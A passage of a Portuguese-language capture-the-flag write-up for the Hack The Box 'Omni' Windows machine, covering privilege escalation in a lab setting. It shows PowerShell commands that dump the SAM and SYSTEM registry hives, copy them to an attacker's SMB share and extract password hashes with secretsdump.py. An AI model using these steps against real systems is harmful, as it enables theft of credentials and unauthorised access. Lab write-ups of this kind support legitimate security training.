 **_Estamos na máquina!_**

![ipconfig](Assets/HTB-Windows-Easy-omni/ipconfig.png)

# Escalada de privilégios

## Enumeração do sistema

Para todos os CaptureTheFlag, o objectivo é conseguir ler a _flag_ (user.txt e root.txt)

Se tivermos privilégios suficientes, podemos encontrá-los através de um simples comando:

```powershell
cd C:\
# Procura recursiva da referida string, a partir da pasta onde nos encontramos:
dir /r /s user.txt  # user.txt : C:\Data\Users\app
dir /r /s root.txt  # root.txt : C:\Data\Users\administrator

# Ver quem tem que privilégios nesses ficheiros
icacls C:\Data\Users\app\user.txt  # NT AUTHORITY\SYSTEM:(I)(F)
								   # BUILTIN\Administrators:(I)(F)
								   # OMNI\app:(I)(F)

icacls C:\Data\Users\administrator\root.txt  # NT AUTHORITY\SYSTEM:(I)(F)
											 # BUILTIN\Administrators:(I)(F)
											 # OMNI\Administrator:(I)(F)
```

O proximo passo é migrar de usuários. Neste momento nós estamos com um usuário do Windows Device Portal, e não como usuário da máquina alvo. Esse tipo de usuário pode executar alguns comando no sistema mas tem um poder muito maior. Tem privilégios para verificar a memória RAM do sistema. Isso significa que podemos extrair o HKLM\System e o HKLM\Sam para recuperar informações dos usuários locais (uid:rid:lmhash:nthash)

```powershell
reg save HKLM\SYSTEM SYSTEM.bak  # The operation completed successfully.
reg save HKLM\SAM SAM.bak        # The operation completed successfully.

# Copiar os dois novos ficheiros para o nosso Kali
copy .\SAM.bak \\10.10.14.16\smbFolder\SAM.bak
copy .\SYSTEM.bak \\10.10.14.16\smbFolder\SYSTEM.bak

# No kali, extrair os dados
secretsdump.py -sam SAM.bak -system SYSTEM.bak LOCAL
#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>
#>  [*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
#>  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
```